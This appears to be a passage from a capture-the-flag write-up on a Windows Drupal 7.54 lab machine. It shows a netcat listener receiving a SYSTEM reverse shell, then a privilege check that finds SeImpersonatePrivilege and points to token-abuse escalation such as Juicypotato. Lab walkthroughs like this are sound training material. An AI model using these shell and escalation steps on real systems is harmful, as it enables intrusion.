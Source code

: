 ```
// Some c└─$ nc -nvlp 8888                                                                                          130 ⨯
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::8888
Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 10.10.10.9.
Ncat: Connection from 10.10.10.9:49285.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system

C:\inetpub\drupal-7.54>
```

### Juicypotato and SeImpersonatePrivilege&#x20;

An alternative method to gain privilege escalation is via the "user privileges".

Let's check our groups and privileges:

```
C:\inetpub\drupal-7.54>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled

C:\inetpub\drupal-7.54>
```

We see that we have the "SeImpersonatePrivilege"

> The "Impersonate a client after authentication" user right (SeImpersonatePrivilege) is a Windows 2000 security setting that was first introduced in Windows 2000 SP4. By default, members of the device's local Administrators group and the device's local Service account are assigned the "Impersonate a client after authentication" user right. The following components also have this user right:
>
> * Services that are started by the Service Control Manager
> * Component Object Model (COM) servers that are started by the COM infrastructure and that are configured to run under a specific account

The following whitepaper describes this exploit and a bunch of other exploits that relate to abusing Windows tokens and is an execellent resource:

{% embed url="https://github.com/hatRiot/token-priv/blob/master/abusing_token_eop_1.0.txt" %}
